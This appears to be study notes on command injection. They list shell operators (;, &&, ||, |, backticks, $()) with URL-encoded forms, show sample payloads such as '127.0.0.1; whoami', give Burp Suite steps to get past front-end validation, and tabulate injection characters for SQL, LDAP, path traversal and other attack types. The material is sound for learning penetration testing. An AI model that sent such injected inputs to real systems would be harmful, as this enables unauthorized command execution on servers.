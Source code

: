 # Detection

Command Injection Detection
ping -c 1 OUR_INPUT

Command Injection Methods

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                           |
|--------------------|---------------------|-----------------------|--------------------------------------------|
| Semicolon          | ;                   | %3b                   | Both                                       |
| New Line           | \n                  | %0a                   | Both                                       |
| Background         | &                   | %26                   | Both (second output generally shown first) |
| Pipe               | \|                  | %7c                   | Both (only second output is shown)         |
| AND                | &&                  | %26%26                | Both (only if first succeeds)              |
| OR                 | \|\|                | %7c%7c                | Second (only if first fails)               |
| Sub-Shell          | ``                  | %60%60                | Both (Linux-only)                          |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only)                          |

# Injecting Commands

Injecting Our Command
ping -c 1 127.0.0.1; whoami

Bypassing Front-End Validation
Burp Suite :
Send a standard request with IP 127.0.0.1
[CTRL + R] send the intercepted HTTP request to repeater
Inject our post parameter : 127.0.0.1; whoami
[CTRL + U] to URL encode the payload

ip=127.0.0.1%3bwhoami

# Other Injection Operators

AND Operator
ping -c 1 127.0.0.1 && whoami

OR Operator
ping -c 1 127.0.0.1 || whoami

--> executes the second command if the first command fails to execute
ping -c 1 || whoami

| Injection Type                          | Operators                           |
|-----------------------------------------|-------------------------------------|
| SQL Injection                           | ' , ; -- /* */                      |
| Command Injection                       | ; &&                                |
| LDAP Injection                          | * ( ) & \|                          |
| XPath Injection                         | ' or and not substring concat count |
| OS Command Injection                    | ; & \|                              |
| Code Injection                          | ' ; -- /* */ $() ${} #{} %{} ^      |
| Directory Traversal/File Path Traversal | ../ ..\\ %00                        |
| Object Injection                        | ; & \|                              |
| XQuery Injection                        | ' ; -- /* */                        |
| Shellcode Injection                     | \x \u %u %n                         |
| Header Injection                        | \n \r\n \t %0d %0a %09              |

